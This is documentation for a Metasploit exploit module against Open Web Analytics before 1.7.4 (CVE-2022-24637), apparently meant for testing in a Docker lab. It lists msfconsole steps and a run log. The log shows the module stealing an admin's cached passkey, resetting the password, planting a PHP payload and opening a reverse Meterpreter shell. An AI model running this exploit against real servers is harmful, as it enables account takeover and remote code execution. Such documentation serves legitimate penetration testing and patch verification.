 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated
remote attacker to obtain sensitive user information, which can be
used to gain admin privileges by leveraging cache hashes. This occurs
because files generated with '<?php (instead of the intended "<?php sequence) aren't
handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: `docker compose up -d`
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the `docker-compose.yml` file
        - Public URL: `http://127.0.0.1/`
        - Database Host (`docker inspect <db-container>` and get `IPAddress`, e.g `172.22.0.2`)
        - Database Port: `3306`
        - Database Name: `owa`
        - Database User: `owa`
        - Database Password: `Demo12+#`
        - Continue
        - Site Domain: `http://127.0.0.1`
        - Admin name: `admin`
        - E-Mail: `admin@admin.com`
        - Password: `Demo12+#`
        - Continue

2. Start `msfconsole`
3. `use exploit/multi/http/open_web_analytics_rce`
4. `set RHOSTS 127.0.0.1`
5. `set RPORT 80`
6. `set SSL false`
7. `set LHOST 172.22.0.1` -> this needs to be bridge IP that got created with the `docker compose up -d` command
8. `check`
9. `run`

## Options
### Password

When exploiting the target, the password of the attacked user will be overwritten with this password.

### Username

The user that will be targeted with this exploit.

## Advanced Options
### SearchLimit

The exploit works by retrieving a `temp_passkey` value from a cache file that gets created for each user when trying to login with it. Since the `/owa-data/caches/` directory is publicly accessible, we can retrieve these cache files. The exact path for the cache files depends on the `user_id` and can get calculated with that. This option defines how many calculated paths, starting from 0, should be checked for cache files with the `temp_passkey` value in it.

## Scenarios
### Version 1.7.3 using docker deployment from above with HTTP
```
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[*] 127.0.0.1:80 - The target appears to be vulnerable. Open Web Analytics 1.7.3 is vulnerable
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': ba47fd0842cfb8e0109ca34e7806b84c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 2 opened (172.22.0.1:4444 -> 172.22.0.3:47916) at 2023-03-11 17:22:04 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at http://127.0.0.1/owa-data/caches/p85iCBRq.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
meterpreter >
```
